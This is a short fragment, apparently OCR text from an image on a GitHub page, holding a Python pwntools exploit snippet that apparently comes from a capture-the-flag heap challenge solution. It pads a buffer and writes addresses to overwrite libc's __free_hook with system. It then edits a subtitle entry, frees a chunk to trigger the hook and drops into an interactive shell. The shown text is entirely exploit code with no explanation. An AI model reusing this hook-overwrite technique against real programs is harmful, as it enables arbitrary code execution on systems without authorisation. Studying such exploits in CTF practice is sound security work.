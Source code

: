 ```python
payload = "A" * 0xf0
payload += p64(prog_addr + 0x203C10)
payload += "A" * 4 + p32(8)
payload += p64(libc_addr + e.symbols["__free_hook"])
create_video(payload, 0x130)

edit_subtitle(idx + 21, p64(libc_addr + e.symbols["system"]))
remove(0)

sh.interactive()
```

